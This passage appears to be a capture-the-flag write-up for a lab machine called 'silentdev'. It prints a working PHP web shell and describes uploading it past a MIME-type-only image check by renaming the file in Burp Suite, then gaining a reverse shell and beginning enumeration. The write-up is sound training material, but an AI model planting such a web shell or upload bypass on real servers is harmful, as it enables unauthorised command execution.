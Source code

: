 ![5](/images/writeups/silentdev/5.png)

We try uploading an image to see if it works.

![6](/images/writeups/silentdev/6.png)

![7](/images/writeups/silentdev/7.png)

The only way I see to gain access to the machine is to **upload a file** that allows us to **execute commands** without the machine noticing, making it think it is just an image.
For example, we could embed **malicious PHP code** into a supposed image.

```
<?php
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

We will create a file on our local machine called ***cmd.php.jpg*** containing the previous code, and when uploading it, we will intercept the request with **Burp Suite**. In the “Filename” field, we will change it to ***cmd.php*** while keeping the **MIME type** as if it were an image.

![8](/images/writeups/silentdev/8.png)

![9](/images/writeups/silentdev/9.png)

We upload it without any issues, and now **we can execute any command**.

![10](/images/writeups/silentdev/10.png)

To access the machine, we will use a **Reverse Shell**.

![11](/images/writeups/silentdev/11.png)

![12](/images/writeups/silentdev/12.png)

Now that we are inside the machine, let’s see why it was so easy to exploit by uploading a **PHP file** without being detected.

![13](/images/writeups/silentdev/13.png)

As we can see, it only restricted by **MIME type**, without actually verifying that the file was truly an image or a GIF.

![14](/images/writeups/silentdev/14.png)

The **www-data** user is part of the **developers** group, and we see that they own two directories.

![15](/images/writeups/silentdev/15.png)

![16](/images/writeups/silentdev/16.png)

In ***/opt/project***, we find an **HTML file** for someone named **Vlad**, but there’s not much else here.
